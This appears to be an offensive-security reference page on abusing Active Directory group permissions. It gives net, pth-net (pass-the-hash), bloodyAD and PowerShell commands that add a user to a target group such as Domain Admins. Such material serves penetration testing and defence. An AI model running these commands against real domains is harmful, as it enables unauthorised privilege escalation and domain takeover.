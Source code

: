 # AddMember

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights` or `Self-Membership`, over the target group.

{% tabs %}
{% tab title="UNIX-like" %}
It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](../../../ad/movement/dacl/broken-reference/).

```bash
# With net and cleartext credentials (will be prompted)
net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController

# With net and cleartext credentials
net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser%$Password -S $DomainController

# With Pass-the-Hash
pth-net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add groupMember $TargetGroup $TargetUser
```
{% endtab %}

{% tab title="Windows" %}
The attacker can add a user/group/computer to a group. This can be achieved with a native command line, with the Active Directory PowerShell module, or with [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Command line
net group 'Domain Admins' 'user' /add /domain

# Powershell: Active Directory module
Add-ADGroupMember -Identity 'Domain Admins' -Members 'user'

# Powershell: PowerSploit module
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user'
```
{% endtab %}
{% endtabs %}
